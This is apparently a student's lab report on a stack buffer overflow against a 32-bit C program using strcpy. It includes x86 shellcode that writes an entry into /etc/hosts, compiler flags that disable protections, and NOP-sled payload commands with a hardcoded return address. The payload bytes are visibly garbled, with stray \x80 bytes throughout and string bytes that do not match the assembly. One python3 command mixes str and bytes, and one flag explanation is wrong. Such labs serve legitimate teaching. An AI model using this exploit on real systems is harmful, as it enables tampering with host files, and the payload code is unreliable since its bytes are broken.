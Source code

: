 # Lab #1,22110073, Nguyen Cong Thuan, INSE331280E_02FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

**Answer 1**:

### Step 1: Create a Dockerfile to set up the environment
First, we need to create a Docker environment with all the necessary tools. Docker will help us set up an isolated and secure environment to test buffer overflow attacks without affecting the real system.
```
touch Dockerfile
```
Copy and paste the following into the Dockerfile:
```
FROM 32bit/ubuntu:16.04
ARG DEBIAN_FRONTEND=noninteractive

RUN apt-get update && \
    apt-get -y install \   
    nasm \
    gcc \
    gdb \
    python3 \        
    python3-pip \    
    git \  
    nano \
    sudo \
    strace \
    libc6-dbg && \
    apt-get clean


RUN useradd -m -s /bin/bash seed && \
    echo "root:dees" | chpasswd && \
    echo "seed:dees" | chpasswd && \
    usermod -aG sudo seed  

USER seed
WORKDIR /home/seed
RUN mkdir seclabs
RUN git clone https://github.com/longld/peda.git ~/peda
RUN echo "source ~/peda/peda.py" >> ~/.gdbinit

CMD [ "/bin/bash"]
```
Build Docker Image:
```
docker build -t buffer_overflow_lab .
```

### Step 2: Create and compile the vulnerable C program

Create vuln.c file with the following content:
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

Compile C program: Start Docker container:
```
docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs buffer_overflow_lab
```
![image](/dockerbuild.png)

Inside the container, run the following command to compile the C program:
```
gcc -o vuln vuln.c -fno-stack-protector -z execstack -m32
```

- -fno-stack-protector: Disable stack protection to prevent buffer overflows.

- -z execstack: Enable code execution on the stack.

- -m32: Compile the program in 32-bit mode.

### Step 3: Write and compile the shellcode
Create a shellcode.asm file with the following content:
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```

Compile the shellcode:
```
nasm -f elf32 shellcode.asm
ld -o shellcode shellcode.o
```

![image](/codecompile.png)
![image](/aftercompile.png)
### Step 4: Create payload and exploit the program
Generate shellcode in bytecode form: Extract bytecode from compiled shellcode file:
```
objdump -d shellcode | grep '[0-9a-f]:' | grep -oP '\s\K[0-9a-f]{2}' | tr -d '\n' | sed 's/\(..\)/\\x\1/g'
```
![image](/shellcode.png)
- This is the binary bytecode of the shellcode, extracted from the shellcode.o file that you compiled from the assembly code (shellcode.asm).
- Each group of 4 characters, for example \x80\x31\xc9\x80, represents 1 byte of machine code. These bytes are specific instructions that are executed directly by the CPU when the shellcode is invoked.
- Use this bytecode string to exploit a buffer overflow vulnerability. This shellcode will be injected into the buffer of the vulnerable program and executed after you control the return address of the program.

Generate payload: Generate payload by combining NOP sled, shellcode, and return address:


```
python3 -c 'print("\x90"*100 + b"\x31\xc9\x80\xf7\xe1\x80\xb0\x05\x80\x51\x80\x68\x6f\x73\x74\x73\x80\x68\x2f\x2f\x2f\x68\x80\x68\x2f\x65\x74\x63\x80\x89\xe3\x80\x66\xb9\x01\x04\x80\xcd\x80\x80\x93\x80\x6a\x04\x80\x58\x80\xeb\x10\x80\x80\x59\x80\x6a\x14\x80\x5a\x80\xcd\x80\x80\x6a\x06\x80\x58\x80\xcd\x80\x80\x6a\x01\x80\x58\x80\xcd\x80\x80\xe8\xeb\xff\xff\xff\xca\x80\x80\x31\x32\x80\x37\xaa\x80\x2e\x31\x2e\x80\x31\x2e\x80\x31\x20\x80\x67\x6f\x80\x6f\x80\x67\x6c\x80\x65\x2e\x63\x6f\x6d" + b"\x40\xfc\xff\xbf")'
```
Run program with payload: Execute program with payload:
```
./vuln $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*100 + b"\x31\xc9\x80\xf7\xe1\x80\xb0\x05\x80\x51\x80\x68\x6f\x73\x74\x73\x80\x68\x2f\x2f\x2f\x68\x80\x68\x2f\x65\x74\x63\x80\x89\xe3\x80\x66\xb9\x01\x04\x80\xcd\x80\x80\x93\x80\x6a\x04\x80\x58\x80\xeb\x10\x80\x80\x59\x80\x6a\x14\x80\x5a\x80\xcd\x80\x80\x6a\x06\x80\x58\x80\xcd\x80\x80\x6a\x01\x80\x58\x80\xcd\x80\x80\xe8\xeb\xff\xff\xff\xca\x80\x80\x31\x32\x80\x37\xaa\x80\x2e\x31\x2e\x80\x31\x2e\x80\x31\x20\x80\x67\x6f\x80\x6f\x80\x67\x6c\x80\x65\x2e\x63\x6f\x6d" + b"\x40\xfc\xff\xbf")')

```
